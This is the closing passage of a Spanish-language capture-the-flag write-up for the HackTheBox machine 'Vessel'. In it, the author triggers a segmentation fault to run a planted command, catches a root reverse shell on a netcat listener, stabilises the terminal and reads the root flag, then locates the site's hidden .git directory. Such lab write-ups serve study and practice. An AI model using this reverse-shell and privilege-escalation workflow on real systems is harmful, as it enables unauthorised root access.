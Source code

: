 Se cambió con éxito, asi que ahora provoquemos un fallo de segmentación a ver si nos ejecuta el comando:

{% highlight bash %}
ethan@vessel:/tmp$ sleep 9999 &
[1] 16809
ethan@vessel:/tmp$ kill -s SIGSEGV 16809
{% endhighlight %}

**Mientras tanto en nuestra máquina**

{% highlight bash %}
❯ nc -lvnp 443
Connection from 10.10.11.178:33534
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@vessel:/# script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
root@vessel:/# ^Z
[1]  + 8892 suspended  nc -lvnp 443
❯ stty raw -echo; fg
[1]  + 8892 continued  nc -lvnp 443
                                   reset xterm
root@vessel:/# export TERM=xterm-256color
root@vessel:/# stty rows 37 columns 151
{% endhighlight %}

¡Et voilà! El comando se ejecutó exitósamente por lo que ya podremos tomar la última flag

{% highlight bash %}
root@vessel:/# cd root
root@vessel:/root# cat root.txt
ad212534303c7741a41d62c9********
{% endhighlight %}

<h2>EXTRA</h2>

Me puse a buscar en donde estaba el directorio `dev` en la ruta `/var/www/html/vessel/` pero extrañamente no encontré algo

{% highlight bash %}
root@vessel:/var/www/html/vessel/vessel# ls
config  index.js  public  routes  views
{% endhighlight %}

Viendo la configuración de Apache me tope con que tiene el DocumentRoot puesto en `/var/www/html/vessel/vessel`, el mismo directorio en donde están los archivos de arriba... pero el sitio solamente me devuelve un 404 si intento hacer referencia a alguno de los ficheros antes mencionados, supongo porque solamente tiene una instrucción ProxyPass puesta.

Buscando mas a fondo el repositorio logre encontrarlo:

{% highlight bash %}
root@vessel:/# find / -name .git 2>/dev/null
/var/www/html/vessel/vessel/public/dev/.git
{% endhighlight %}


[pinns:e]: Path for pinning namespaces not specified: Invalid argument
[pinns:e]: Filename for pinning namespaces not specified: Invalid argument
[pinns:w]: Failed to create ns file: No such file or directory